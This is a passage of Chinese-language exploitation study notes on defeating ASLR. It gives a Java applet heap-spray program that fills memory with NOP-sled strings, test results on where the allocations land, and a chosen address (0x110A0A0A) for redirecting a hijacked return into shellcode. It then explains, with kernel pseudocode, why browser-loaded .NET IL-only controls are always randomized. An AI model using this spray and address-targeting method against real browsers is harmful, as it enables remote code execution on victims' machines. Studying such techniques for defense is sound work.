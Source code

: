 <b>Java Applet申请空间测试代码</b>
<pre><code>
import java.applet.*;
import java.awt.*;

public class AppletSpray extends Applet{
    public void init(){
        String[] mem = new String[1024];
        StringBuffer buffer = new StringBuffer(0x100000/2);
        buffer.append("\u8281\u8182");
        for(int i=0;i<(0x100000-16)/2;i++)
            buffer.append("\u9090");
        Runtime.getRuntime().gc();
        for(int j=0;j<90;j++)
            mem[j] += buffer.toString();
    }
}
</code></pre>

<b>Java Applet申请空间起始地址测试结果</b>

|重启前|内存起始地址|重启后|内存起始地址范围|
|--|--|--|--|
|1|0x10010014-0x13F5FDE4|1|0x10010014-0x13F4CC10|
|2|0x10010014-0x13F4CC10|2|0x10010014-0x13F5A3E8|

从表中可以看出4次试验均有一定的交集，这说明90MB的空间基本上可以对抗ASLR了。不妨使用0x110A0A0A作为切入点，只要将攻击函数的返回地址覆盖为0x110A0A0A，经过若干个0x90的滑行就可以执行shellcode了

### 5. 为.NET控件禁用ASLR

#### 5.1 原理解读

当.NET控件的IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识移除后，这个.NET控件依然会随机加载。

ASLR对PE文件是否启用随机化处理的校验过程：
<pre><code>
if(!(pBinaryInfo->pHeaderInfo->usDllCharacteristics & IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE) && 
!(pBinaryInfo->pHeaderInfo->bFlags & PINFO_IL_ONLY_IMAGES) &&
!(_MmMoveImages == -1))
{
	_MiNoRelocate++;
    return 0;
}
</code></pre>

从代码中可以看出，只要满足下列任意条件就会对PE文件进行随机化处理
1. PE头含有IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识
2. IL-Only文件，这是对.NET文件进行了特殊照顾
3. _MmMoveImages 值为-1

由上可以若一个文件是IL-Only文件，无论是否设置了IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识，都会随机化加载。而加载到浏览器中的.NET控件恰恰是IL-Only的。
